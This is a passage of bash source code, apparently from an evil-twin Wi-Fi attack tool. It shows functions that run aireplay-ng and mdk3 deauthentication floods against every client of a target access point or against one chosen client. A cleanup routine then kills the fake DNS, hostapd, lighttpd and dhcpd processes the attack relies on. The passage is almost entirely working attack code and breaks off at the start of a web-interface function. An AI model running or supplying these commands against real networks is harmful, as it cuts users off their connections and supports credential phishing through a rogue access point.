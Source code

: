 
############################################# < ATTACK > ############################################






############################################## < STUFF > ############################################

# Deauth all
function deauthall {

        xterm $HOLD $BOTTOMRIGHT -bg "#000000" -fg "#FF0009" -title "Deauthenticating all clients on $Host_SSID" -e aireplay-ng --deauth $DEAUTHTIME -a $Host_MAC --ignore-negative-one $WIFI_MONITOR &
}

function deauthmdk3 {

        echo "$Host_MAC" >$DUMP_PATH/mdk3.txt
        xterm $HOLD $BOTTOMRIGHT -bg "#000000" -fg "#FF0009" -title "Deauthenticating via mdk3 all clients on $Host_SSID" -e mdk3 $WIFI_MONITOR d -b $DUMP_PATH/mdk3.txt -c $Host_CHAN &
        mdk3PID=$!
}

# Deauth to a specific target
function deauthesp {

        sleep 2
        xterm $HOLD $BOTTOMRIGHT -bg "#000000" -fg "#FF0009" -title "Deauthenticating client $Client_MAC" -e aireplay-ng -0 $DEAUTHTIME -a $Host_MAC -c $Client_MAC --ignore-negative-one $WIFI_MONITOR &
}

# Close all processes
function matartodo {

        killall aireplay-ng &>$flux_output_device
        kill $(ps a | grep python| grep fakedns | awk '{print $1}') &>$flux_output_device
        killall hostapd &>$flux_output_device
        killall lighttpd &>$flux_output_device
        killall dhcpd &>$flux_output_device
        killall xterm &>$flux_output_device

}

######################################### < INTERFACE WEB > ########################################

# Create the contents for the web interface
function NEUTRA {

